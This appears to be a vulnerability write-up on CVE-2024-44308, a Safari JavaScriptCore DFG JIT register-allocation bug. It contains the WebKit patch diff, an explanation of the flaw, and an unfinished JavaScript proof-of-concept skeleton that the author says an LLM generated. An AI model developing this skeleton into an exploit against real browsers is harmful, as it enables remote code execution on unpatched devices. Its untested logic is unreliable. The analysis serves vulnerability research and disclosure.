 ```yaml
---
layout: post
title: "[In-The-Wild] CVE-2024-44308 : Apple Safari JavaScriptCore Remote Code Execution Vulnerability"
author: "Dohyun Lee (@l33d0hyun)"
---
```


# Summary:
- CVE ID : [CVE-2024-44308](https://support.apple.com/en-us/121754/)
- Target Software : Apple Safari (iOS, visionOS, macOS)
- Affected Version : iOS 17.7.1, 18.1, visionOS 2.1, macOS Sequoia 15.1
- Patched Version : iOS 17.7.2, 18.1.1, visionOS 2.1.1, macOS Sequoia 15.1.1
- Impact : Remote Code Execution
- Reporter(s) : [Clément Lecigne](https://x.com/_clem1) and [Benoît Sevens](https://x.com/benoitsevens) of [Google's Threat Analysis Group](https://blog.google/threat-analysis-group/)
- Analyzer(s) : [Dohyun Lee (@l33d0hyun)](https://x.com/l33d0hyun) of [USELab, Korea University](https://sites.google.com/view/uselab-kus/home)

# Technical Details:
## Overview:
- This vulnerability in WebKit's DFG JIT compiler involves a register corruption issue due to improper allocation timing of `scratch2GPR` register.

## Analysis:
```diff
diff --git a/Source/JavaScriptCore/dfg/DFGSpeculativeJIT.cpp b/Source/JavaScriptCore/dfg/DFGSpeculativeJIT.cpp
index 356d52b21a120..d041b63e8ba98 100644
--- a/Source/JavaScriptCore/dfg/DFGSpeculativeJIT.cpp
+++ b/Source/JavaScriptCore/dfg/DFGSpeculativeJIT.cpp
@@ -3528,6 +3528,14 @@ void SpeculativeJIT::compilePutByValForIntTypedArray(Node* node, TypedArrayType
        }
    }

+    GPRReg scratch2GPR = InvalidGPRReg;
+#if USE(JSVALUE64)
+    if (node->arrayMode().mayBeResizableOrGrowableSharedTypedArray()) {
+        scratch2.emplace(this);
+        scratch2GPR = scratch2->gpr();
+    }
+#endif
+
    bool result = getIntTypedArrayStoreOperand(
        value, propertyReg,
#if USE(JSVALUE32_64)
@@ -3539,14 +3547,6 @@ void SpeculativeJIT::compilePutByValForIntTypedArray(Node* node, TypedArrayType
        return;
    }

-    GPRReg scratch2GPR = InvalidGPRReg;
-#if USE(JSVALUE64)
-    if (node->arrayMode().mayBeResizableOrGrowableSharedTypedArray()) {
-        scratch2.emplace(this);
-        scratch2GPR = scratch2->gpr();
-    }
-#endif
-
    GPRReg valueGPR = value.gpr();
    GPRReg scratchGPR = scratch.gpr();
#if USE(JSVALUE32_64)
```
- WebKit Commit : [53e7f27d262249310bd6b7ad452e7df334c92b7d](https://github.com/WebKit/WebKit/commit/53e7f27d262249310bd6b7ad452e7df334c92b7d).diff


- This vulnerability has been patched as shown above. In the pre-patch code, there was a potential register misuse issue where `scratch2GPR` was allocated after adding a slow path through `getIntTypedArrayStoreOperand()`. This could lead to problems for the following reasons:

  - Allocating a DFG register after a slow path means that if the slow path is taken, we will have allocated a register unnecessarily and end up with inconsistent global state.
  - In this specific case, if `getIntTypedArrayStoreOperand()` adds a slow path, `scratch2GPR` gets allocated after that even though it won't be used in the slow path.

- Code Flow:
  - Call `getIntTypedArrayStoreOperand()` -> Add slow path -> Incorrectly allocate `scratch2GPR` -> Inconsistent register state if slow path taken

## Proof-of-Concept (Unfinished):
- This is not a fully developed PoC, but it allows us to reach the functions we need to trigger: `SpeculativeJIT::compilePutByValForIntTypedArray` and `getIntTypedArrayStoreOperand()`.
- This skeleton code is the code generated by `LLM (Large Language Model)`.

```js
var ab = new ArrayBuffer(8);
var arr = new Int32Array(ab);

const confuser = {
    valueOf() {
        gc();
        if (this.flag) {
            return {x: 0x41414141};
        }
        return 0x1234;
    },
    flag: false
};

function jitMe(arr) {
    let x = 0;
    for(let i = 0; i < 10000; i++) {
        if(i % 100 === 0) {
            confuser.flag = !confuser.flag;
            x = confuser;
        } else {
            x = i & 0xff;
        }
        arr[(i & 0xffff)] = x;
    }
    return arr;
}

for(let i = 0; i < 100; i++) {
    jitMe(arr);
}
jitMe(arr);
```

- The complete PoC code will be updated once it is finalized.

## Additional Information:
- I think I might find useful information on the blog below! It seems to have some similarities.
  - [https://blog.csdn.net/qq_61670993/article/details/137603280](https://blog.csdn.net/qq_61670993/article/details/137603280)